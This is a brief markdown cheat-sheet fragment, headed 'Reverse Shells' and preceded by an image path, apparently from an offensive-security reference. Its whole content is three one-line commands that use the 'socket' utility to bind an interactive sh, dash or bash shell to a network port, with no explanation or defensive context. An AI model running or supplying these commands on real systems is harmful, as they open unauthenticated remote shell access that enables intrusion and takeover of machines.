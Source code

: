 # Reverse Shells

```
socket -svp '/bin/sh -i' <PORT>

socket -svp '/bin/dash -i' <PORT>

socket -svp '/bin/bash -i' <PORT>
```